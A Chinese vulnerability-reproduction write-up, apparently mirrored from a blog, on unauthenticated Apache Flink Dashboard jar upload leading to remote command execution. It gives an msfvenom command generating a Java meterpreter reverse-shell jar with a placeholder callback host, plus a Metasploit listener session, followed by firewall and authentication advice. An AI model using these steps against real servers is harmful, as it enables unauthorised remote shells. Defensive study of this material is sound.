




# Apache Flink 未授权访问 - 远程代码命令执行 - 复现

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：无外围认证、可上传及执行作业的 Dashboard，网络可回连
- 证据范围：正常功能的访问控制风险，防火墙/代理鉴权建议有用；与 128/129 同一内容簇。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 受影响最新版本 <=1.9.1 是无日期旧快照
- Meterpreter 生成器和 shell handler 不一致
- 代码及 URL 残留 Markdown 转义反斜线，复制将破坏命令/链接
- 上传执行参数仅图片；应压缩推广页脚

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。
- 含落盘脚本或账户创建：会留下持久状态。记录本次生成的路径或账户，测试后清理这些对象并撤销关联令牌；不要删除既有业务对象。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/aomCajnZVA9WlnBqTE\_QPg)


好久没更新了，今天趁 1024 更新一篇，最近工作中遇到这个漏洞，今天自己来做一下这个漏洞复现。  

Apache Flink 未授权访问 - 远程代码命令执行 - 复现


一、漏洞简介

Apache Flink Dashboard 默认没有用户权限认证。攻击者可以通过未授权的 Flink Dashboard 控制台，直接上传木马 jar 包，可远程执行任意系统命令获取服务器权限，风险极大。

二、影响版本  

Apache Flink <= 1.9.1(最新版本)

三、漏洞复现  

1、生成反弹 jar 包

```
msfvenom -p java/meterpreter/reverse\_tcp LHOST=XX.XX.XX.XX LPORT=4444 -f jar > rce.jar
```



2、msf 设置监听  

```
msf5 > use exploit/multi/handler 
\[\*\] Using configured payload generic/shell\_reverse\_tcp
msf5 exploit(multi/handler) > set payload java/shell/reverse\_tcp 
payload => java/shell/reverse\_tcp
msf5 exploit(multi/handler) > show options 

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (java/shell/reverse\_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf5 exploit(multi/handler) > set LHOST XX.XX.XX.XX
LHOST => XX.XX.XX.XX
msf5 exploit(multi/handler) > exploit 

\[\*\] Started reverse TCP handler on XX.XX.XX.XX:4444
```



3、上传 Jar 包，并且提交



监听接受反弹的 shell，获取权限  



四、安全建议

1\. 请关注 Apache Flink 官方以便获取更新信息：https://flink.apache.org/

2\. 针对 ApacheFlinkDashboard 设置防火墙策略 (禁止 Dashboard 对外访问，或者确保只对可信端点开放)， 仅允许白名单 IP 进行访问，并在 Web 代理中增加对该服务的 Digest 认证，防止未授权访问。关于认证设置可参考链接：

https://httpd.apache.org/docs/2.4/mod/mod\_auth\_digest.html。

五、参考连接

http://www.llidc.com/news/858.html

https://nitec.jhun.edu.cn/da/64/c4987a121444/page.htm

免责声明：本站提供安全工具、程序 (方法) 可能带有攻击性，仅供安全研究与教学之用，风险自负!

转载声明：著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。

订阅查看更多复现文章、学习笔记

thelostworld

安全路上，与你并肩前行！！！！


个人知乎：https://www.zhihu.com/people/fu-wei-43-69/columns

个人简书：https://www.jianshu.com/u/bf0e38a8d400

个人 CSDN：https://blog.csdn.net/qq\_37602797/category\_10169006.html


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
